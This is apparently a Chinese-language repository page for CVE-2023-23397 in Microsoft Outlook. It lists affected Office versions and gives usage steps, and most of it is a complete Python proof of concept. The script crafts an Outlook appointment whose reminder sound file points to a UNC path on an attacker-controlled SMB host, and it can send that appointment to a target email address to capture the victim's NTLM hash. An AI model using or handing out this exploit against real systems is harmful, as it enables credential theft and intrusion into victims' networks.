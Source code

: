 ## CVE-2023-23397

### 影响版本
Microsoft Outlook 2016 (64-bit edition)=N/A  
Microsoft Outlook 2013 Service Pack 1 (32-bit editions)=N/A  
Microsoft Outlook 2013 RT Service Pack 1=N/A  
Microsoft Outlook 2013 Service Pack 1 (64-bit editions)=N/A  
Microsoft Office 2019 for 32-bit editions=N/A  
Microsoft 365 Apps for Enterprise for 32-bit Systems=N/A  
Microsoft Office 2019 for 64-bit editions=N/A  
Microsoft 365 Apps for Enterprise for 64-bit Systems=N/A  
Microsoft Office LTSC 2021 for 64-bit editions=N/A  
Microsoft Outlook 2016 (32-bit edition)=N/A   
Microsoft 365 Apps for Enterprise for 64-bit Systems=N/A  
Microsoft Office LTSC 2021 for 32-bit editions=N/A  

### 用法
1. 安装pywin32：pip install pywin32  
2. 攻击者机器上启动SMB服务器，例如Metasploit的SMB模块  
3. python Exploit.py <save_or_send> <target email> <attacker_ip>   

```
#!/usr/bin/python3
#     PoC for CVE-2023-23397 v1.2
#     Copyright (C) 2022 - Gianluca Tiepolo, Maria Saleri
#
#      https://github.com/tiepologian/CVE-2023-23397/blob/main/Exploit.py
#
#     This program is free software: you can redistribute it and/or modify
#     it under the terms of the GNU General Public License as published by
#     the Free Software Foundation, either version 3 of the License, or
#     (at your option) any later version.
#
#     This program is distributed in the hope that it will be useful,
#     but WITHOUT ANY WARRANTY; without even the implied warranty of
#     MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#     GNU General Public License for more details.
#
#     You should have received a copy of the GNU General Public License
#     along with this program.  If not, see <https://www.gnu.org/licenses/>.
#
#     Usage: python Exploit.py <save_or_send> <target email> <attacker_ip>

import win32com.client
import sys, datetime, os, argparse

def saveMail(appt):
    exportPath = 'malicious.msg'
    appt.SaveAs(os.path.abspath(exportPath))
    print("[*] Finished, saved to", os.path.abspath(exportPath))

def sendMail(appt):
    appt.Send()
    print("[*] Finished, e-mail sent!")

def generateMail(cmd, target, c2):
    outlook = win32com.client.Dispatch("Outlook.Application")
    appt = outlook.CreateItem(1) # AppointmentItem
    print("[*] Generating malicious e-mail...")
    output_date = datetime.datetime.now().strftime("%Y-%m-%d %H:%M")
    appt.Start = output_date # yyyy-MM-dd hh:mm
    appt.AllDayEvent = True
    appt.Subject = "Testing CVE-2023-23397"
    appt.body = "Thank you for your hash!"
    appt.Location = "TeamRocket"
    appt.MeetingStatus = 1
    appt.Recipients.Add(target)
    appt.ReminderOverrideDefault = True
    appt.ReminderPlaySound = True
    appt.ReminderSoundFile = "\\\\" + c2
    if cmd == "save":
        saveMail(appt)
    elif cmd == "send":
        sendMail(appt)
    else:
        print("[!] Unrecognized command, exiting...")
        exit(1)

def main():
    if len(sys.argv) != 4:
        print("Usage: python Exploit.py <save_or_send> <target_email> <attacker_ip>")
        sys.exit(0)
    print('[*] CVE-2023-23397 v1.2 by Tiepolo G, Saleri M')
    generateMail(sys.argv[1], sys.argv[2], sys.argv[3])

if __name__ == "__main__":
    main()
```
